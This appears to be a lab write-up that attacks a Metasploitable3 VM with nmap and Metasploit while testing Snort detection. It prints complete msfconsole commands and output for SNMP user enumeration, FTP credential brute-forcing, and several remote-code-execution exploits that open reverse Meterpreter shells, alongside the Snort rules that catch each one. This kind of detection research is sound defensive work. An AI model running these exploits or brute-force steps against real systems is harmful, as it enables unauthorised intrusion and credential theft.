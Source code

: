 # Is it easier to fix the application than to detect attacks?
It is obviously best not to have any exploitable vulnerabilities at all. Then again vulnerabilities are always unknown at first so having intrusion detection and to verify the system integrity is at least some kind of countermeasure, especially if the detecting NIDS/HIDS can actively block traffic besides producing alerts.
* The possibility of fixing applications depends together with other factors for example on whether the software is open source or proprietary and if it is actively maintained or not. A common scenario is old proprietary software which only works on older systems leading to unpatched systems running with known vulnerabilities.
In the case of systems based solely on open source I would argue that it is always easier to fix the application but to become aware of vulnerabilities that needs to be fixed analysing anomalies in systems and network traffic is a great help.
# 1. Portscan of Metasploitable3
The system was set up and snort installed in the virtual machine with the snapshot-2990 and community rule sets. Custom nonstandard HTTP ports like 8484 was added to HTTP_PORTS, http_inspect_server and the stream5_tcp preprocessor in snort.conf as they were not included by default.
* => nmap -sS -p 1-65535 -T4 -v 192.168.78.2
Initial TCP SYN port scan showed 17 open ports:
$ nmap -sV -p 21,22,80,1617,3000,4848,5985,8022,8080,8282,8484,\
  8585,9200,49153,49154,49202,49203 -v 192.168.78.2

PORT      STATE SERVICE       VERSION
21/tcp    open  ftp           Microsoft ftpd
22/tcp    open  ssh           OpenSSH 7.1 (protocol 2.0)
80/tcp    open  http          Microsoft IIS httpd 7.5
1617/tcp  open  nimrod-agent?
3000/tcp  open  http          WEBrick httpd 1.3.1 (Ruby 2.3.1 (2016-04-26))
4848/tcp  open  ssl/http      Oracle GlassFish 4.0 (Servlet 3.1; JSP 2.3; Java 1.8)
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
8022/tcp  open  http          Apache Tomcat/Coyote JSP engine 1.1
8080/tcp  open  http          Oracle GlassFish 4.0 (Servlet 3.1; JSP 2.3; Java 1.8)
8282/tcp  open  http          Apache Tomcat/Coyote JSP engine 1.1
8484/tcp  open  http          Jetty winstone-2.8
8585/tcp  open  http          Apache httpd 2.2.21 ((Win64) PHP/5.3.10 DAV/2)
9200/tcp  open  http          Elasticsearch REST API 1.1.1 (name: Mandroid; Lucene 4.7)
49153/tcp open  msrpc         Microsoft Windows RPC
49154/tcp open  msrpc         Microsoft Windows RPC
49202/tcp open  unknown
49203/tcp open  tcpwrapped
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
Slow comprehensive nmapscan additionally revealed:
161/udp   open  snmp     SNMPv1 server (public)
Snort produced no alerts for any of the scans even when enabling sfportscan preprocessor in snort.conf and indicator-scan.rules:28. There are nmap-specific rules in deleted.rules but I decided to move on.
2. Gathering information using SNMP
2.1 msfconsole
msf > use auxiliary/scanner/snmp/snmp_enum
msf auxiliary(snmp_enum) > set RHOSTS 192.168.78.2
msf auxiliary(snmp_enum) > exploit
...
[*] System information:
Host IP                       : 192.168.78.2
Hostname                      : metasploitable3
...
The snmp-scanner found 20 user accounts:
•	Administrator, Guest, anakin_skywalker, artoo_detoo, ben_kenobi, boba_fett, c_three_pio, chewbacca, darth_vader, greedo, han_solo, jabba_hutt, jarjar_binks, kylo_ren, lando_calrissian, leah_organa, luke_skywalker, sshd, sshd_server, vagrant
2.2 snort
A walk of the public snmp MIB was not detected by snort. Enabling rules in protocol-snmp.rules produced:
PROTOCOL-SNMP public access udp [**] [Classification: Attempted Information Leak]
PROTOCOL-SNMP request udp [**] [Classification: Attempted Information Leak]
3. Bruteforcing FTP
3.1 msfconsole
Known usernames were added to users.txt.
msf > use auxiliary/scanner/ftp/ftp_login
msf auxiliary(ftp_login) > set RHOSTS 192.168.78.2
msf auxiliary(ftp_login) > set USER_FILE users.txt
msf auxiliary(ftp_login) > set PASS_FILE /opt/metasploit/data/wordlists/unix_passwords.txt
msf auxiliary(ftp_login) > set USER_AS_PASS true
msf auxiliary(ftp_login) > exploit
...
[+] 192.168.78.2:21       - 192.168.78.2:21 - LOGIN SUCCESSFUL: Administrator:vagrant
[+] 192.168.78.2:21       - 192.168.78.2:21 - LOGIN SUCCESSFUL: vagrant:vagrant
Detected credentials can be used in terminal-logins and for services like FTP, SSH, and others.
3.2 snort
Snort does not detecting bruteforcing of FTP other than monitoring rate of logins and that could be avoided by limiting the attack rate.
4. Exploiting Jenkins
4.1 msfconsole
msf > use exploits/multi/http/jenkins_script_console
msf exploit(jenkins_script_console) > set RHOST 192.168.78.2
msf exploit(jenkins_script_console) > set RPORT 8484
msf exploit(jenkins_script_console) > set TARGETURI /
msf exploit(jenkins_script_console) > exploit
...
[*] Sending stage (957487 bytes) to 192.168.78.2
[*] Command Stager progress - 100.00% done (99626/99626 bytes)
[*] Meterpreter session 1 opened (172.28.128.1:4444 -> 192.168.78.2:49644) at 2017-04-09 18:04:14 +0300

meterpreter > getuid
Server username: NT AUTHORITY\LOCAL SERVICE
4.2 snort
Enabling app-detect.rules:172, server-other.rules:1436 and changing the URI from "/jenkins/" to "/" produced:
APP-DETECT Jenkins Groovy script access through script console attempt [**] [Classification: Potential Corporate Privacy Violation]
5. Exploiting Elasticsearch (CVE-2014-3120)
5.1 msfconsole
msf > use exploit/multi/elasticsearch/script_mvel_rce
msf exploit(script_mvel_rce) > set RHOST 192.168.78.2
msf exploit(script_mvel_rce) > exploit
...
[*] Trying to execute arbitrary Java...
[*] Discovering remote OS...
[+] Remote OS is 'Windows Server 2008 R2'
[*] Discovering TEMP path
[+] TEMP path identified: 'C:\Windows\TEMP\'
[*] Sending stage (49667 bytes) to 192.168.78.2
[*] Meterpreter session 3 opened (172.28.128.1:4444 -> 192.168.78.2:56198) at 2017-04-09 00:01:45 +0300
[!] This exploit may require manual cleanup of 'C:\Windows\TEMP\GgOFe.jar' on the target

meterpreter > getuid
Server username: METASPLOITABLE3$
5.2 snort
Enabling server-other.rules:812,1336 produces:
SERVER-OTHER ElasticSearch script remote code execution attempt [**] [Classification: Attempted User Privilege Gain]
6. Exploiting JMX (CVE-2015-2342)
6.1 msfconsole
msf > use exploit/multi/misc/java_jmx_server
msf exploit(java_jmx_server) > set RHOST 192.168.78.2
msf exploit(java_jmx_server) > set RPORT 1617
msf exploit(java_jmx_server) > exploit
...
[+] 192.168.78.2:1617 - Handshake with JMX MBean server on 192.168.78.2:49202
[*] 192.168.78.2:1617 - Loading payload...
[*] 192.168.78.2:1617 - Replied to request for mlet
[*] 192.168.78.2:1617 - Executing payload...
[*] Sending stage (49667 bytes) to 192.168.78.2
[*] Meterpreter session 1 opened (172.28.128.1:4444 -> 192.168.78.2:55207) at 2017-04-08 22:41:42 +0300

meterpreter > getuid
Server username: LOCAL SERVICE
6.2 snort
Enabling server-other.rules:177,1346 produces:
SERVER-OTHER Oracle Java JMX server insecure configuration remote code execution attempt [**] [Classification: Attempted User Privilege Gain]
7. Exploiting Apache Axis2 (CVE-2010-0219)
7.1 msfconsole
Default payload did not work but adjusting target and payload gained a meterpreter prompt.
msf > use exploit/multi/http/axis2_deployer
msf exploit(axis2_deployer) > set RHOST 192.168.78.2
msf exploit(axis2_deployer) > set LHOST 172.28.128.1
msf exploit(axis2_deployer) > set RPORT 8282
msf exploit(axis2_deployer) > set target 1
msf exploit(axis2_deployer) > set payload java/meterpreter/reverse_tcp
msf exploit(axis2_deployer) > exploit

[*] Started reverse TCP handler on 172.28.128.1:4444
[+] http://192.168.78.2:8282/axis2/axis2-admin [Apache-Coyote/1.1] [Axis2 Web Admin Module] successful login 'admin' : 'axis2'
[*] Successfully uploaded
[*] Polling to see if the service is ready
[*] Sending stage (49667 bytes) to 192.168.78.2
[*] Meterpreter session 10 opened (172.28.128.1:4444 -> 192.168.78.2:52402) at 2017-04-09 21:47:02 +0300
[+] Deleted webapps/axis2/WEB-INF/services/ekQcQZls.jar

meterpreter > getuid
Server username: METASPLOITABLE3$
7.2 snort
Enabling server-other.rules:1451 and policy-other.rules:84,115-116
POLICY-OTHER HP Universal CMDB default credentials authentication attempt [**] [Classification: Potential Corporate Privacy Violation]
POLICY-OTHER CA ARCserve Axis2 default credential login attempt [**] [Classification: Attempt to Login By a Default Username and Password]
POLICY-OTHER HP Universal CMDB server axis2 service upload attempt [**] [Classification: Attempted Administrator Privilege Gain]
7. Exploiting ManageEngine (CVE-2015-8249)
7.1 msfconsole
msf > use exploit/windows/http/manageengine_connectionid_write
msf exploit(manageengine_connectionid_write) > set RHOST 192.168.78.2
msf exploit(manageengine_connectionid_write) > set RPORT 8022
msf exploit(manageengine_connectionid_write) > exploit

[*] Started reverse TCP handler on 172.28.128.1:4444
[*] Creating JSP stager
[*] Uploading JSP stager vSkNT.jsp...
[*] Executing stager...
[*] Sending stage (957487 bytes) to 192.168.78.2
[*] Meterpreter session 3 opened (172.28.128.1:4444 -> 192.168.78.2:53235) at 2017-04-09 22:34:31 +0300
[+] Deleted ../webapps/DesktopCentral/jspf/vSkNT.jsp

meterpreter > getuid
Server username: NT AUTHORITY\LOCAL SERVICE
7.2 snort
Enabling rules/server-webapp.rules:1853-1855
SERVER-WEBAPP ManageEngine Desktop Central FileUploadServlet directory traversal attempt [**] [Classification: Web Application Attack]

